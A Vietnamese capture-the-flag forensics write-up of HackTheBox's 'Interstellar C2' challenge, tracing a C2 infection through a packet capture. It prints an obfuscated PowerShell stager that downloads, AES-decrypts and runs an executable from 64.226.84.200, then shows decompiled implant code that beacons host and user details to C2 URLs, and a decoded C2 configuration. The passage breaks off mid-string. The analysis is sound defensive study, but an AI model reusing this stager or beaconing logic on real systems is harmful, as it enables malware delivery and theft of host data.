








### Description
> We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?

### Link challenge 
> https://app.hackthebox.com/challenges/Interstellar%2520C2

### Solution

- Challenge này cho ta 1 tập tin wireshark, sau khi mở ra thứ đập vào mắt mình đầu tiên là 1 tập tin powershell đang chạy trong mạng 

- 
- Xem xét file này ta thấy rằng nó đã bị xáo trộn mã để nhằm trốn tránh quá trình điều tra
```
  .("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"
```
- Mình sử dụng công cụ PowerDecode để cho mã dễ đọc hơn 
```
  Set-iTem 'vAriAble:qLz0so'  ( [tYpe]'SySTEM.io.FilEmode') ;  set-VariABLE l60Yu3  ( [tYPe]'sYStem.SeCuRiTY.crypTOgRAphY.aeS');  Set-VARiaBle  BI34  (  [TyPE]'sySTEm.secURITY.CrYpTogrAPHY.CrypTOSTReAmmoDE');  ${URl} = 'http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51'
${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
Import-Module 'BitsTransfer'
Start-BitsTransfer -Source ${uRl} -Destination ${pTf}
${Fs} = New-Object 'IO.FileStream'(${pTf},  ( chilDIteM  'VAriablE:QLz0sO').VALue::"oPeN")
${MS} = New-Object 'System.IO.MemoryStream';
${aes} =   (GI  VARiaBLe:l60Yu3).VAluE::'Create'.Invoke()
${aEs}.KEYsIZE = 128
${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${aES}.KEY = ${KEY}
${Aes}.iV = ${iV}
${cS} = New-Object 'System.Security.Cryptography.CryptoStream'(${mS}, ${aEs}.CreateDecryptor.Invoke(),   (GeT-VARIaBLE  bI34  -VaLue )::"WRItE");
${fs}.CopyTo.Invoke(${Cs})
${decD} = ${Ms}.ToArray.Invoke()
${CS}.Write.Invoke(${dECD}, 0, ${dECd}.LENgTH);
${DeCd} | Set-Content -Path "$env:temp\tmp7102591.exe" -Encoding 'Byte'
& "$env:temp\tmp7102591.exe"
```
- Thấy rằng hacker bắt đầu tải file từ đường dẫn `http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51` về `temp\94974f08-5853-41ab-938a-ae1bd86d8e51` 
- Sau đó giải mã chúng bằng key  và iv lần lượt là `[byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)` và `[byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)` sau đó lưu thành file `tmp7102591.exe`
- Mình tiếp tục với wireshark bằng cách tìm các dữ liệu được tải xuống là gì. 
- File được tải xuống thông qua ip `64.226.84.200` và đường dẫn `/94974f08-5853-41ab-938a-ae1bd86d8e51`
- 
- Và đây là 1 phần của file 
- 
- Vì sợ tải trực tiếp về dữ liệu không chính xác nên mình chuyển qua raw và chuyển qua base64 để decrypt 
- 
- Tiếp theo mình viết thêm 1 script decrypt với manh mối đã có thì thu được 1 file exe
```
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

# Chuỗi mã hóa Base64 cần giải mã
base64_encoded_str = 'LO/vjlFsGurunJwFxYSkvBeR1SaATrHUfQ60QlntKIuZxl7GNvzaQ9zlpT/3IL/aL8EZrTTVKoVrSTGkZfqjvjiQEZ+98yUAm1LMFdvN3p8KnCB6BU+H2/nRULv+HqnkEiUtN....'
key = bytes([0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0])  # 16 bytes cho AES-128
iv = bytes([0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1])   # 16 bytes IV

encrypted_data = base64.b64decode(base64_encoded_str)

cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
decryptor = cipher.decryptor()

try:
    decrypted_data = decryptor.update(encrypted_data) + decryptor.finalize()
except Exception as e:
    print(f"Đã xảy ra lỗi khi giải mã: {e}")
    exit(1)
try:
    decrypted_str = decrypted_data.decode('utf-8')
    print('Chuỗi đã giải mã:', decrypted_str)
except UnicodeDecodeError:
    output_file_path = 'tmp7102591.exe'
    with open(output_file_path, 'wb') as file:
        file.write(decrypted_data)
    print(f"Dữ liệu đã giải mã và lưu vào tệp: {output_file_path}")

```
- Up file này lên virustotal ta xác định được nó được viết bằng .NET
- 
- Với .NET thì ta sử dụng ILspy hoặc dnSpy, ở đây mình sử dụng ILspy để phân tích
- Thông thường, mấy bài ctf như thế này ta cần chú ý nhiều vào các hàm decrypt/encrypt và hàm gửi dữ liệu đi.

- Đây là hàm `Encryption` và hàm `Decryption`
```
	private static string Encryption(string key, string un, bool comp = false, byte[] unByte = null)
	{
		byte[] array = null;
		array = ((unByte == null) ? Encoding.UTF8.GetBytes(un) : unByte);
		if (comp)
		{
			array = Compress(array);
		}
		try
		{
			SymmetricAlgorithm symmetricAlgorithm = CreateCam(key, null);
			byte[] second = symmetricAlgorithm.CreateEncryptor().TransformFinalBlock(array, 0, array.Length);
			return Convert.ToBase64String(Combine(symmetricAlgorithm.IV, second));
		}
		catch
		{
			SymmetricAlgorithm symmetricAlgorithm2 = CreateCam(key, null, false);
			byte[] second2 = symmetricAlgorithm2.CreateEncryptor().TransformFinalBlock(array, 0, array.Length);
			return Convert.ToBase64String(Combine(symmetricAlgorithm2.IV, second2));
		}
	}
    	private static string Decryption(string key, string enc)
	{
		byte[] array = Convert.FromBase64String(enc);
		byte[] array2 = new byte[16];
		Array.Copy(array, array2, 16);
		try
		{
			SymmetricAlgorithm symmetricAlgorithm = CreateCam(key, Convert.ToBase64String(array2));
			byte[] bytes = symmetricAlgorithm.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
			return Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes).Trim(default(char))));
		}
		catch
		{
			SymmetricAlgorithm symmetricAlgorithm2 = CreateCam(key, Convert.ToBase64String(array2), false);
			byte[] bytes2 = symmetricAlgorithm2.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
			return Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes2).Trim(default(char))));
		}
		finally
		{
			Array.Clear(array, 0, array.Length);
			Array.Clear(array2, 0, 16);
		}
	}
```
- Nhìn vào hàm decryption CreateCam tạo ra một đối tượng giải mã với khóa key và IV (được chuyển thành Base64 từ array2). IV là 16 byte đầu của array
- Kéo xuống dưới ta có 1 hàm primer

<details>
<summary>
Hàm primer
</summary>


```
private static void primer()
	{
		if (!(DateTime.ParseExact("2025-01-01", "yyyy-MM-dd", CultureInfo.InvariantCulture) > DateTime.Now))
		{
			return;
		}
		dfs = 0;
		string text = "";
		try
		{
			text = WindowsIdentity.GetCurrent().Name;
		}
		catch
		{
			text = Environment.UserName;
		}
		if (ihInteg())
		{
			text += "*";
		}
		string userDomainName = Environment.UserDomainName;
		string environmentVariable = Environment.GetEnvironmentVariable("COMPUTERNAME");
		string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
		int id = Process.GetCurrentProcess().Id;
		string processName = Process.GetCurrentProcess().ProcessName;
		Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
		string text2 = null;
		string text3 = null;
		string[] array = basearray;
		for (int i = 0; i < array.Length; dfs++, i++)
		{
			string text4 = array[i];
			string un = string.Format("{0};{1};{2};{3};{4};{5};1", userDomainName, text, environmentVariable, environmentVariable2, id, processName);
			string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
			text3 = text4;
			string address = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
			try
			{
				string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
				text2 = Decryption(key, enc);
			}
			catch (Exception ex)
			{
				Console.WriteLine(string.Format(" > Exception {0}", ex.Message));
				continue;
			}
			break;
		}
		if (string.IsNullOrEmpty(text2))
		{
			throw new Exception();
		}
		Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
		Match match = regex.Match(text2);
		string randomURI = match.Groups[1].ToString();
		regex = new Regex("URLS10484390243(.*)34209348401SLRU");
		match = regex.Match(text2);
		string stringURLS = match.Groups[1].ToString();
		regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
		match = regex.Match(text2);
		string killDate = match.Groups[1].ToString();
		regex = new Regex("SLEEP98001(.*)10089PEELS");
		match = regex.Match(text2);
		string sleep = match.Groups[1].ToString();
		regex = new Regex("JITTER2025(.*)5202RETTIJ");
		match = regex.Match(text2);
		string jitter = match.Groups[1].ToString();
		regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
		match = regex.Match(text2);
		string key2 = match.Groups[1].ToString();
		regex = new Regex("IMGS19459394(.*)49395491SGMI");
		match = regex.Match(text2);
		string stringIMGS = match.Groups[1].ToString();
		ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);
	}

```

</details>

```
		for (int i = 0; i < array.Length; dfs++, i++)
		{
			string text4 = array[i];
			string un = string.Format("{0};{1};{2};{3};{4};{5};1", userDomainName, text, environmentVariable, environmentVariable2, id, processName);
			string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
			text3 = text4;
			string address = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
			try
			{
				string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
				text2 = Decryption(key, enc);
			}
			catch (Exception ex)
			{
				Console.WriteLine(string.Format(" > Exception {0}", ex.Message));
				continue;
			}
			break;
		}
```
- Tại vòng lặp for ta thấy rằng nó đang sử dụng key là `DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=` và tải dữ liệu bị mã hoá theo path là `/Kettie/Emmie/Anni?Theda=Merrilee?c` thông qua dòng 
```
string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
```
- Mình sử dụng bộ lọc của wireshark để tìm nó 
> http.request.uri.path == "/Kettie/Emmie/Anni"
- 
- 
- Sử dụng cyberchef để decrypt nó 
- 
- Output có vẻ là mã base64, decode nó 

<details>
<summary>
Output
</summary>

```
RANDOMURI19901dVfhJmc2ciKvPOC10991IRUMODNAR
URLS10484390243"Kettie/Emmie/Anni?Theda=Merrilee", "Rey/Odele/Betsy/Evaleen/Lynnette?Violetta=Alie", "Wilona/Sybila/Pearla/Mair/Dannie/Darcie/Katerina/Irena/Missy/Ketty/", "Hedwiga/Pamelina/Lisette/Sibylla/Jana/Lise/Kellen/Daniela/Alika/", "Arlinda/Chelsae/Milka/Alexine/Mona/Catherin/Charmain/Deborah/", "Melessa/Anabelle/Bibbye/Candis/Jacqueline/Lacee/Nicola/Belvia?Lexi=Veronika", "Janith/Mona/Kimberlee/Flossi/Darcie/Doralia/Aloysia/Gracia/Antonella?Othella=Jewelle", "Vere/Maddalena/Kara/Thomasina/Alisha/Amargo/Carrissa/", "Harlie/Fanya/Jehanna/Jane/Tami/Sissy/", "Catlaina/Nikaniki/Sonja/Denni/Kelsey/Allis/Cherry?Hayley=Rosalind", "Gerry/June/Charissa/Blondy/Sharity/Lory?Loise=Maribelle", "Ariadne/Marianna/Betti/Samaria/Carmon/Tandy/Charissa/Sherrie/Felipa/Crissy/", "Glennis/Elfrieda/Fannie/Nola/Janetta/Darda/Kathi/Britte?Berta=Lidia", "Georgeta/Sharron/Cynthy/Roseanna/", "Morganne/Mamie/Arlee/Suki/Uta/Anett/Sena/Babette/Anderea?Hally=Karie", "Zondra/Tasha/Rey/Eolande/Rianon/Alla/Trula/Cynthea/Glyn?Jamima=Ethyl", "Edi/Phyllys/Marga/Jaquith/Ray/Lynnell/Flory?Angelle=Betteanne", "Ciel/Constantine/Catlee?Cecile=Karina", "Kaylee/Guglielma/Clementia/Ilka/", "Zoe/Delora/Christi/Carolan/Barbi/Myrta/Cherie/Halie/", "Brandy/Joanna/Afton/Jana?Chelsea=Truda", "Aveline/Alethea/Rona/Janka/Danila/Robbyn/Glynda/Stormi/", "Tamiko/Carine/Juliann/", "Jacenta/Hatti?Tatiana=Franny", "Hyacinth/", "Merrili/Gabrila/Harmony/Erda/", "Mirelle/Imogene/Rivalee/Ayn/Courtenay?Jania=Jerrylee", "Imogen/Ketti/Kari/Sam/Maurise?Shirlene=Eugenia", "Melinda/Lianne/Blancha/Silvie/Gracia/Zaneta/Lyda/Dalia/Tracie/", "Fanchette/Marlyn/Casey/Bobbye/Elayne/Charmane/", "Cissiee/Maxy/Madalyn/Esme/Esther/Barbette/Starla/Vin/Corrinne/Meggy/Joete?Glenna=Aida", "Kirsteni/Nelie/Lauralee/Stefanie/Haily/Annecorinne/Nettle/Natka?Jenda=Ursuline", "Elinore/", "Maisie/Hedwig/Natividad?Gisela=Ollie", "Roselle/Philippa/Noellyn/Zarah/Tillie/Koral/Laurette/Lelah/Kylynn/Cassaundra/Jordanna?Stormy=Vally", "Abbi/Rania/Vivienne/Engracia/Adel/Ange/Tonye/Rosemaria/Gretta/Guinna/Jehanna?Linnet=Daria", "Mamie/Eddi/Eddi/Tanitansy/Timmy/Willie/Catie/Gisela/Sheri/", "Helaina/Theadora/Malinda/Linnie/Jaquith/Ailyn/Magda?Sisile=Vonnie", "Faunie/Dionne/Shelbi/Zorana/Pearline/Rozanna/Kandace/Fanchon?Anna-Diana=Lorelei", "Waneta/Marnie/Jessalyn/Jaynell/Holli/Kassi/Euphemia/Katerine?Minda=Dawna", "Kikelia/Jacinthe/Adorne/Kariotta/Lonee/Krystalle/", "Constancia/Dynah?Allene=Moyra", "Donetta/", "Sallie/Lindie/Denni/", "Jeannine/Lucretia/Denna/Prudy/Hendrika/Ilysa/Caroljean?Aline=Tine"34209348401SLRU
KILLDATE16652025-01-015661ETADLLIK
SLEEP980013s10089PEELS
JITTER20250.25202RETTIJ
NEWKEY8839394nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=4939388YEKWEN
IMGS19459394"iVBORw0KGgoAAAANSUhEUgAAAB4AAAAeCAMAAAAM7l6QAAAAYFBMVEU1Njr////z8/NQUVSur7DP0NE6Oz/ExMXk5OX7+/uFhojMzM3s7OxhYWScnJ5sbXBCQ0aioqTc3N24ubp9foB4eXxJSk1aW16+vsC1tbZERUmTlJZlZmlxcnWpqauPj5EM0tYGAAABIklEQVQokW3T2xaCIBAF0DMoCmpK3jLL/P+/DAEdI88Tzl6yuAwgTpuu/VDUueAS9oG+JwjJFhlzOuKcQZ1ZLIhiJubqEavNZ2d9u1CgC1xcKoxyXLqPRQmOarbS27GfWvFmhabW1XLL0k/FumLUwtUay0XMdpPCMypQEvPzVlDgDmEQWJT+wEN1RXtwl5IYkQj6TDsPkDtL3Khzy32gDdww50iozZApmiEDL1DM9kd5lzTh4B46Y563ey4Ncw16M9tz7N0Z7lyC7sfSOMqz0aDKzy4oT/eU5FdUbFfiT3Wlc1zNbsJyZZzPCWd2lZdvhw6XeejQa68rHdXRqfW/Ju2pzycTaVP9PIOq//n1GT8iUnXodjNM+u+NuSaQ+VSqc+ULzdUKYp4PP7UAAAAASUVORK5CYII=","iVBORw0KGgoAAAANSUhEUgAAACAAAAAgCAMAAABEpIrGAAAAM1BMVEX///9ERERQUFDQ0NCKioro6Ojz8/O5ubmhoaGWlpbExMRzc3NbW1tnZ2fc3Nytra1/f38sBDSdAAAA1ElEQVQ4jc1SSRLDIAzDgM2a5f+vLTZpCMtMp6dWh5hBsrwQpf4KFiBwDAB2xTsAUXiObm1QQKQ5rCxOERgj4VwI/FNwDGT0RqF4I/JXozLlqku20mWQIUqP3JG/BZJbPI4odkfJF59bAFPjdaRekMoB7ZYtlkPqBfkS1B1ougS5DQG1pWrMxWTm2Eo6DYkUwgVUlEDP67ZvwfKtVDMA2Jf81gQbTjR5DQ9oTz2/ZxiQ+zJ65Os6bpiZ58f5QkCfStQ/tsewSMceKURjYuCFLBb9O7wAPuQEc7DXsEAAAAAASUVORK5CYII=","iVBORw0KGgoAAAANSUhEUgAAACAAAAAgCAMAAABEpIrGAAADAFBMVEUBAAD//////pn//mX//jP9/QD/y/7/y8v/y5n/y2X/zDP9ywD/mf7/mcv/mZn/mGX/mDP9mAD/Zf7/Zcv/ZZj/ZWX/ZTP9ZQD/M/7/M8v/M5j/M2X/MzP9MgD9AP39AMv9AJj9AGX9ADL9AADL///L/8vM/5nL/2XM/zPL/QDLy//MzMzLy5jMy2bLyzLMywDLmf/LmMvLmJjMmGbLmDLMmQDLZf/MZsvMZpjMZmbLZTLMZQDLM//LMsvLMpjLMmXLMjLMMgDLAP3MAMvMAJjMAGXMADLMAACZ//+Z/8uZ/5mY/2WZ/zOY/QCZzP+Yy8uYy5iZzGaYyzKZzACZmf+YmMuZmZmYmGWZmDOYlwCYZf+YZsyYZZiYZWWZZTOYZQCYM/+YMsuZM5iZM2WZMzOYMgCYAP2YAMyYAJeYAGWYADKYAABl//9l/8tl/5hl/2Vm/zNl/QBly/9mzMxmzJhmzGZlyzJmzABlmP9mmcxlmJhlmGVmmTNlmABlZf9mZsxlZZhmZmZlZTJmZQBlM/9lMstlM5llMmVlMjJmMgBlAP1lAMxlAJhmAGVmADJmAAAz//8z/8wz/5gz/2Yz/zMy/QAzzP8yy8syy5gyy2UyyzIzzAAzmf8ymMszmZkzmWUzmTMymAAzZv8yZcszZpkyZWUyZTIzZgAzM/8yMsszM5kyMmUzMzMyMQAyAP0yAMwyAJgyAGYyADEyAAAA/f0A/csA/ZgA/WUA/TIA/QAAy/0AzMwAzJkAzGUAzDMAzAAAmP0AmcwAmJgAmGUAmDIAmAAAZf0AZswAZZgAZmYAZjIAZgAAMv0AM8wAMpgAM2YAMjIAMgAAAP0AAMwAAJgAAGYAADLuAADcAAC6AACqAACIAAB2AABUAABEAAAiAAAQAAAA7gAA3AAAugAAqgAAiAAAdgAAVAAARAAAIgAAEAAAAO4AANwAALoAAKoAAIgAAHYAAFQAAEQAACIAABDu7u7d3d27u7uqqqqIiIh3d3dVVVVEREQiIiIREREAAADMkK3HAAAAAXRSTlMAQObYZgAAAT5JREFUeNp1krFuhDAMhp0cFUIsqGvfgI216spTd83e7d6AFd1yim7g3N8OgRBChuDk/2T/djBUWmy20JSB/f4K2ERT1qzub1MCWmz1S0IvxLkE/2D7E4oeRYD4s1d9Xj6+nQKcVeK2ls8MJ29R2AY7qQ0l6EHPxuD4zLoRYPpadQWORqSPetKwEZNHAH60QP8LmXQOCaAqaYc9kTNhmvA8m1SNRATQNwBOVAWoTwC0fJAVoDkBXvk0D0B4nwtdM7QeHeV6CljagFqqoYV7DqxEeAJp0XYbwF4tCDHcg0yOzoAQg0iylhuABUGlAI3OroAzODYLCQAOhHjwI1ICGHS6jPuKbTcJWNEKGNzE4eqzeQp6BPCjdxj4/u4sBao4ST+mvo8rAEh3kxTiqgCoL1KCTkj6t4UcFV0Bu7F0/QNR1IQemtEzQAAAAABJRU5ErkJggg==","iVBORw0KGgoAAAANSUhEUgAAABoAAAAaCAMAAACelLz8AAAAXVBMVEWnp6f///8rLi3p6en8/Py9vb2wsLC6urrLy8vS0tLv7+/W1tY0NzaYmJh5enouMTBmaGc6PDuEhISjo6OLi4udnp1BREN+f35PUlFxcnJZW1pMTk5cXl2RkZE3OjlmWTrgAAAA2ElEQVQokX2S2xKDIAxEIwgq4gUVq7b0/z+zQMCB6rgv0ZyRXUOgCBIt4wCctSJ2AAtlcIrRBJU1ZKrLiMoK/lSViK4EmUX1ldgzHaJ3BIBa5LN1+D5/pDy6aXE5CxCutShkB3F6O2RB48pEZG+L9oRIjxrw5+mBkHU3BlGPfw7cW40k0csjjvYmJcRkUbeEfGOTh9TDicYIcOSzOonUEGI0wW3NQ7jwIjzpYLdHJ4GDWsYNvdQUCYvjnQ41DGrr52y8D5fydJUPC/C0Nm7Zkg8rmu3h3Yr+ANAgB/2vh2bMAAAAAElFTkSuQmCC","iVBORw0KGgoAAAANSUhEUgAAACAAAAAgCAMAAABEpIrGAAAA+VBMVEX////p6en6+vr29va8vLzq3MWkgFPt38rv7+/g4ODJycnj4+Pl173g0LSZZir59/XYx6WohlvNroXw4sqjdDu2mG3NvJMRDhPTw53Cq4LZ2dmSXR7by6zRv5r06Netj2fXy7ugd0SQWRnKt5DBpXnk18O8uLOnnpG1qJm+o32ZaC9ucHWQkpael43Yw6etg062mZiumHthYWXYxKjUxLDTz8nm1LG5n32ojW2tnoq9mm4wLjJUUlQnJSheV065r6NrY1eDg4aSZzXIt6AfGxzCn3N8WzU1KR+BViRQNxt6ZUqsi4RBMTHJtbWfeGgdDQ22jlyqfUW8n4zo5IpYAAACJ0lE